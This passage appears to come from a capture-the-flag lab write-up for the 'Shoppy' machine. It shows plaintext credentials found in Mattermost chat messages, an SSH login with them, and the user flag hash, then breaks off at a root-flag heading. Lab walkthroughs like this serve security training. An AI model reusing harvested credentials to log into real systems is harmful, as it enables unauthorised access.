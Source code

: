 http:/mattermost.shoppy.htb/

![](/assets/obsidian/9a389debb1fb01ef6705c871a5fcab66.png)

After examining the messages

Found 
```bash
For the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
```

```bash
ssh jaeger@shoppy.htb
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)

jaeger@shoppy:~$ cat user.txt                                                  
53ba99bb47c37c00d085dc57076b869e 
```


# Root Flag

